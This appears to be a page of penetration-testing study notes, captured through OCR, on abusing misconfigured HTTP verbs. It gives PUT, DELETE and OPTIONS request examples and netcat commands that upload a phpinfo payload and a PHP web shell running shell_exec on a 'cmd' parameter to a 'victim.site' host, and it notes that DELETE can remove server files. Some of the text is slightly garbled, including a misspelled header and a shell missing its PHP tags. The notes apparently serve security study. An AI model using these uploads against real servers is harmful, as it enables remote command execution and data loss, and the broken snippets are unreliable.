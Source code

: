 ```bash
Host: www.example.site

# PUT is used to upload a file to a server
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT DATA>

# DELETE is used to remove a file from the server
# Must be configured wisely as it might lead to DoS and data loss
DELETE /path/to/destination HTTP/1.1
Host: www.example.site

# OPTIONS is used to query the web server for enabled HTTP Verbs
OPTIONS / HTTP/1.1
Host: www.example.site
```

### Exploiting Misconfigured HTTP verbs

- 1st you enumerate verbs with an OPTIONS message in `nc`
- To exploit the DELETE verb, you just have to specify the file you want to delete from the server
- Exploiting PUT is more complex, because you have to know the size of the file you want to upload on the server, you can measure with `wc -m file` to count how long, in bytes, a payload is.
- Misconfigured HTTP verbs are becoming rare in web servers.
- You can still find a lot of misconfigured HTTP methods in embedded devices, IP cameras, digital video recorders and other smart devices.

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content length: 20

<?php phpinfo(); ?>
```

```bash
# PHP Shell

> nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

if (isset($_GET['cmd'])) {
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
```
